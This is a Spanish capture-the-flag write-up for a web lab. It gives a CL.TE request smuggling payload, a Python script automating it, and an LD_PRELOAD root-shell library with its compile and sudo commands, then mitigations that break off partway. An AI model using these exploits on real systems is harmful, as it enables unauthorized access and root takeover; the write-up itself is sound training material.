<h1 align="center">[Writeup] PROXY - Reporte de Vulnerabilidad</h1>

**Dificultad:** Insano (★★★★★)

**Categoría:** Web / Descubrimiento de Credenciales / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 18-10-2026

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Web Exploit (Nivel Insane). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: WebExploitLabs/proxy, requiriendo obtener acceso inicial y comprometer el sistema."

---


---
# 1. Reconocimiento
## 1.1. Escaneo Nmap:

Se realiza el reconocimiento inicial mediante nmap a la dirección IP **172.17.0.2**:
```bash
nmap -sV -sC --min-rate 5000 172.17.0.2 -oN scan_proxy.txt
```

*Puertos Descubiertos: 21 (ftp), 22 (SSH), 80 (HTTP-HAProxy), 8080 (Werkzeug-HTTP)*

## 1.2. Inspección FTP:

Se ingresó al servidor ftp ya que no tenía ningún tipo de protección, mediante el usuario "anonymous" y contraseña vacía, encontrando dentro un fichero llamado **firewall_rules.bak**.


El cuál contenía lo siguiente:

```text
# FIREWALL BACKUP CONFIGURATION - v4.2
# DO NOT MODIFY MANUALLY. USE SENTINEL CONSOLE.

[SYS_ADMIN_HASHES]
admin_root:$6$vXq.1/k.F7s0n.T$K8Q.R2q3xJ9lP.yM1wD.zX4vC7nA.bV9uM8qL.yJ1pW.xK4hN7vB.cM0wD.zQ9lP.xK4hN7vB:18756:0:99999:7:::
backup_user:$6$zYw.4/p.M9r2c.L$A2F.J8k5xV1nC.mQ9wE.pT4xY6lD.zV7bN9mM.cJ0qZ.oP2rD8kV.xW0nT.pT4xY6lD:18756:0:99999:7:::

[NETWORK_ZONES]
DMZ_INTERFACE=eth1
LAN_INTERFACE=eth0
WAN_INTERFACE=eth2

[ROUTING]
DEFAULT_GATEWAY=10.0.0.1
ENABLE_BGP=true
BGP_AS=65001

[SECURITY_POLICIES]
ALLOW_SSH_FROM_MGMT=192.168.100.0/24
DENY_ALL_INBOUND=true
ENABLE_DEEP_INSPECTION=true
HA_PROXY_BACKEND=127.0.0.1:5000
```

Que, a pesar de tener hashes (inválidos). NO parece ser de mucha utilidad por ahora.

## 1.3. Inspección Web:
### Puerto 80:


Gobuster no dió nada interesante, ni con un diccionario, "common" ni "medium", no creemos que sea la manera de seguir investigando, había un botón que se supone llevaba al login del administrador, pero no existía ya que daba *Error 404*. la única pista conseguida aquí, fue un link:

que, a pesar de llevarnos a un error 403, significa que el recurso existe. 

Dentro de la web encontramos lo siguiente:
```php
# Initializing Sentinel Shield Engine v4.2.1...  
[OK] Loading heuristic signatures...  
[OK] Establishing HAProxy edge nodes...  
[OK] Mounting internal Flask backends...  
[OK] Applying strict Content-Length validation...  
# System is ARMED. Awaiting incoming traffic.
```

a pesar de que "Sentinel Shield" es una supuesta aplicación que simula ser un firewall, el apartado si nos dice algo con respecto a cómo se comporta la validación del "Content-Length", esto, conectado con una referencia que se investigo en Internet:
```text
 Contrabando de Solicitudes HTTP (HTTP Request Smuggling)

- Afecta a: Versiones desde la **1.7.9 hasta la 1.9.0** (y posteriores).
- Mecanismos: En este rango se descubrieron varios fallos de consistencia al procesar cabeceras HTTP malformadas (como el abuso de `Transfer-Encoding` y `Content-Length`). El balanceador no lograba sanitizar de forma estricta los espacios o caracteres no estándar antes de retransmitirlos a los servidores backend. Esto permitía a atacantes saltarse reglas de ACL, interceptar sesiones o envenenar la caché.
```

----

# 2. Explotación
## 2.1. Request Smuggling

Luego de probar diferentes payloads en BurpSuite, llegue a este:

```http
POST / HTTP/1.1 
Host: 172.17.0.2 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 4 
Transfer-Encoding: chunked 
 
3b
GET /api/internal/backup_keys HTTP/1.1 
Host: 172.17.0.2 
 
0 
 

```

Para llegar a un payload correcto para este Request Smuggling, con un típico conflicto CL.TE, lo primero fue identificar el objetivo, en este caso, la dirección a "contrabandear" seria: /api/internal/backup_keys.

Primero utilizar POST (ya que estas llevan un cuerpo, que es exactamente lo que queremos que quede "flotando") Host y Transfer-Encoding, luego es aquí donde tenemos que tener cierto cuidado, usamos Content-Length con 4 bytes y Transfer-Encoding chunked (fragmentado, que le dice al backend que el mensaje viene por partes, precedido de sus bytes), lo que basicamente hacemos es, que la primera parte de la petición lea 4 bytes (3b\r\n) que traducido serían 59, o, 3a (58) siempre intentando hacerlo coincidir con la cantidad de bytes de nuestra petición contrabandeada, pero solo debe haber una mínima diferencia de un byte  que quede flotando en el buffer. Ejecutamos una segunda petición básica en nuestro BurpSuite:

```http
GET / HTTP/1.1
Host: 172.17.0.2
```

Agrupando ambas pestañas en un solo grupo, y seleccionando la opción "Send Group (single connection)" lo que hará que esta segunda petición (pestaña) "empuje" nuestros 59/58 bytes, lo que se llama“**response queue poisoning**":



```http
GET /api/internal/backup_keys HTTP/1.1 
Host: 172.17.0.2 
```

Devolviendonos **/api/internal/backup_keys** como respuesta en nuestra segunda pestaña/petición.


*lo hice agrupando pestañas para mayor efectividad*

Encontrando credenciales:
```text
sys-admin:super_secure_firewall_admin_2026!
```

---
# 3. Acceso Inicial:
## 3.1. Acceso SSH y Captura de la "User Flag"

Tal y como dice la "nota" (**"note": "Use these credentials to SSH into the box.**"). Entramos mediante **SSH** con las credenciales **sys-admin:super_secure_firewall_admin_2026!**:


Listamos los archivos de la carpeta **/home/sys-admin** a ver que obtenemos, encontrando  la flag de usuario:



### User Flag:
```bash
proxy{w3lc0m3_t0_th3_fr0nt_l1n3}
```

## 3.2. Enumeración, Escalada de Privilegios y Root Flag:

Para la escalada de privilegios local, revise primero permisos SUID del sistema, sin éxito. Acto seguido se realizo una búsqueda de permisos de usuario con *sudo -l*, encontrando:
```bash
Matching Defaults entries for sys-admin on proxy:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=LD_PRELOAD

User sys-admin may run the following commands on proxy:
   (ALL) NOPASSWD: /usr/bin/firewall-tester
```

El vector de escalada de privilegios se identifica en la directiva `env_keep+=LD_PRELOAD` dentro de la configuración de sudo. Esta directiva permite que un usuario mantenga su variable de entorno `LD_PRELOAD` al ejecutar comandos privilegiados. Como resultado, el sistema operativo se ve obligado a cargar y ejecutar una biblioteca compartida (`.so`) arbitraria controlada por el usuario antes de iniciar el binario autorizado, logrando la ejecución de código con privilegios de root de forma inmediata.



Los pasos para explotarlo son los siguientes:
**1. Crear una librería maliciosa:**
```bash
cat << 'EOF' > /tmp/root.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
EOF
```

**2. Compilarla como librería compartida:**
```bash
gcc -shared -fPIC -nostartfiles -o /tmp/root.so /tmp/root.c
```

**3. ejecutar el binario con LD_PRELOAD apuntando a tu librería:**
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/bin/firewall-tester
```

La función _init() se ejecuta automáticamente apenas el cargador dinámico carga tu librería, antes de que el main() del binario original siquiera arranque. Como sudo te permitió pasar LD_PRELOAD (gracias al env_keep), y el binario se ejecuta con privilegios de root vía el NOPASSWD, tu función corre como root y te abre un /bin/bash -p.

#### Flag de Root:
```
root{smuggl1ng_4nd_pr3l04d1ng_ftw}
```


---

# EXTRA: Automatización del ataque y hallazgos adicionales.

## 1. Script Python:

Para agilizar la validación del HTTP Resquest Smuggling sin depender exclusivamente de BurpSuite, se ha creado un pequeño script que automatiza el envío del payload CL.TE de forma consistente:
```python
#!/usr/bin/env python3
"""
Request Smuggling (CL.TE) contra el lab PROXY.
Replica el comportamiento de "Send group (single connection)" de Burp:
    1) Manda la peticion maliciosa (smuggling) por el socket.
    2) Sin cerrar la conexion, manda una segunda peticion simple.
    3) Lee la respuesta que llega (la que corresponde a la peticion
       interna contrabandeada, segun lo visto en Burp).
"""

import socket
import sys

HOST = "172.17.0.2"
PORT = 80
TIMEOUT = 8  # segundos de espera por datos antes de dar por terminada la lectura

# --- Peticion 1: el payload de smuggling (TE.CL) -----------------------
# OJO: Content-Length debe quedar en 4 (son los 4 bytes de "3b\r\n").
# El chunk-size "3b" (59 en hex) debe coincidir con el tamaño real
# del bloque GET interno + su Host + la linea en blanco que lo cierra.
SMUGGLE_REQUEST = (
    "POST / HTTP/1.1\r\n"
    "Host: 172.17.0.2\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 4\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "3b\r\n"
    "GET /api/internal/backup_keys HTTP/1.1\r\n"
    "Host: 172.17.0.2\r\n"
    "\r\n"
    "0\r\n"
    "\r\n"
).encode()

# --- Peticion 2: la peticion simple, enviada por la MISMA conexion -----
SIMPLE_REQUEST = (
    "GET / HTTP/1.1\r\n"
    "Host: 172.17.0.2\r\n"
    "\r\n"
).encode()


def recv_available(sock, timeout=TIMEOUT):
    """Lee todo lo que el socket entregue hasta que no llegue nada mas
    durante `timeout` segundos (o se cierre la conexion)."""
    sock.settimeout(timeout)
    chunks = []
    try:
        while True:
            data = sock.recv(4096)
            if not data:
                break
            chunks.append(data)
    except socket.timeout:
        pass
    return b"".join(chunks)


def main():
    print(f"[*] Conectando a {HOST}:{PORT} ...")
    with socket.create_connection((HOST, PORT), timeout=TIMEOUT) as sock:

        # --- Enviar la peticion 1 (payload de smuggling) ---------------
        print("[*] Enviando peticion 1 (smuggling)...")
        sock.sendall(SMUGGLE_REQUEST)

        # Pequeña espera a ver si el front-end responde algo a la
        # peticion 1 (lo normal es un 200 OK "de relleno", como vimos
        # en Burp: solo consume los 4 bytes declarados en Content-Length).
        resp1 = recv_available(sock, timeout=2)
        if resp1:
            print("[*] Respuesta a la peticion 1 (front-end, normalmente irrelevante):")
            print("-" * 60)
            print(resp1.decode(errors="replace"))
            print("-" * 60)
        else:
            print("[*] La peticion 1 no devolvio nada por ahora (puede quedar pendiente).")

        # --- Enviar la peticion 2 por la MISMA conexion -----------------
        print("[*] Enviando peticion 2 (simple, misma conexion)...")
        sock.sendall(SIMPLE_REQUEST)

        # --- Leer la respuesta final: deberia ser la de la peticion
        #     contrabandeada (/api/internal/backup_keys), si el desync
        #     funciono igual que en Burp.
        resp2 = recv_available(sock, timeout=TIMEOUT)
        print("[*] Respuesta final (deberia ser la de /api/internal/backup_keys):")
        print("=" * 60)
        print(resp2.decode(errors="replace") if resp2 else "(vacio / sin respuesta)")
        print("=" * 60)


if __name__ == "__main__":
    try:
        main()
    except (ConnectionRefusedError, socket.timeout, OSError) as e:
        print(f"[!] Error de conexion: {e}")
        sys.exit(1)

```

## Pruebas:




---
## 2. Honeypot en el puerto 8080:

Dado que el ataque se enfocó en el puerto 80, hizo irrelevante este puerto, por lo que al ingresar a la máquina se reviso el código fuente de la página en la ruta */opt*:
```bash
root@proxy:/opt# ls -la
total 16
drwxr-xr-x 1 root root 4096 May 29 19:34 .
drwxr-xr-x 1 root root 4096 Oct 18 15:37 ..
drwxr-xr-x 1 root root 4096 May 29 19:34 backend
drwxr-xr-x 1 root root 4096 May 29 19:13 honeypot
root@proxy:/opt# cd honeypot/
root@proxy:/opt/honeypot# ls -la
total 12
drwxr-xr-x 1 root root 4096 May 29 19:13 .
drwxr-xr-x 1 root root 4096 May 29 19:34 ..
-rw-r--r-- 1 root root 1435 May 29 19:06 admin_honeypot.py
```

Encontrando que este era un Honeypot (Solo con el nombre). Al revisarlo, nos podemos dar cuenta en lo siguiente:
```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    
    time.sleep(5)
    
    if "'" in username or '"' in username:
        return "SQL Syntax Error near ''", 500
        
    return "Invalid Credentials. Login attempt logged.", 401

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)

```

Básicamente el login lo único que hacia era en caso de enviar un usuario o contraseña vacío o "inválidos" mandarte una advertencia *Invalid Credentials. Login attempt logged*. sin compararlos con ningún hash, base de datos, etc, y tomarse 5 segundos para simular estar haciendo las comparaciones contra algo, pero todo esto para hacer perder el tiempo al atacante.


---


# 4. Mitigaciones:

# 1. FTP anónimo con archivo filtrado

**Problema:** El servicio FTP permitía login anónimo y exponía firewall_rules.bak, un archivo de configuración con hashes de contraseñas y detalles de la arquitectura interna (HA_PROXY_BACKEND=127.0.0.1:5000).

**Mitigaciones:**

- Deshabilitar el acceso anónimo en vsftpd (anonymous_enable=NO en vsftpd.conf), salvo que exista una necesidad de negocio explícita y documentada.
- Nunca almacenar archivos de configuración con credenciales, hashes o topología de red en directorios accesibles públicamente (ni siquiera como backups “temporales”).
- Si se requiere compartir archivos vía FTP, usar autenticación obligatoria y restringir por IP de origen (allowlist) a los segmentos de red que realmente lo necesitan.
- Rotar inmediatamente cualquier credencial que haya quedado expuesta en un backup, y auditar logs de acceso FTP para detectar descargas no autorizadas del archivo.

# 2. HTTP Request Smuggling (CL.TE)

**Problema:** El front-end (HAProxy) determinaba el límite de la petición en base al header Content-Length, mientras que el backend (Werkzeug/Flask) procesaba el cuerpo según Transfer-Encoding: chunked. Al declarar un Content-Length deliberadamente menor al tamaño real de los datos enviados, el front-end daba por completa la primera petición antes de tiempo, y el resto de los bytes (una segunda petición GET /api/internal/backup_keys) quedaba en el buffer de la conexión, desincronizando la cola de respuestas entre front-end y backend. Esto permitió que la petición interna se procesara como si viniera legítimamente del backend, saltándose los controles de acceso del proxy.

**Mitigaciones:**

- Rechazar explícitamente, a nivel de proxy, cualquier petición que incluya ambos headers Content-Length y Transfer-Encoding simultáneamente (esto es lo que hacen por defecto versiones recientes de nginx, Apache y HAProxy ≥ 2.0 con option http-use-htx/validaciones HTTP/1.1 estrictas activadas).
- Actualizar HAProxy a una versión reciente con soporte HTX (motor de procesamiento HTTP interno) activado, que normaliza y valida la semántica de framing antes de reenviar al backend.
- Forzar el uso de HTTP/2 extremo a extremo entre proxy y backend cuando sea posible, ya que HTTP/2 no usa Transfer-Encoding: chunked de la misma forma y elimina gran parte de la superficie de ataque de smuggling clásico.
- Asegurar que front-end y backend compartan la misma librería o parser HTTP, o al menos implementaciones que sigan estrictamente el mismo RFC (RFC 9112) para eliminar discrepancias de interpretación entre ambos.
- Nunca exponer endpoints “internos” (/api/internal/...) confiando únicamente en que el proxy los bloquee por ruta — deben requerir autenticación propia independiente del control de acceso del proxy (defensa en profundidad).
- Monitorear logs del backend buscando peticiones pipelineadas inusuales o discrepancias entre el número de peticiones recibidas por el front-end y las procesadas por el backend.

# 3. Escalada de privilegios vía LD_PRELOAD + sudoers mal configurado

**Problema:** La configuración de sudoers conservaba la variable de entorno LD_PRELOAD (env_keep+=LD_PRELOAD) y permitía ejecutar /usr/bin/firewall-tester como root sin contraseña, lo que permitió inyectar una librería maliciosa que ejecutaba código arbitrario como root antes del main() del binario legítimo.

**Mitigaciones:**

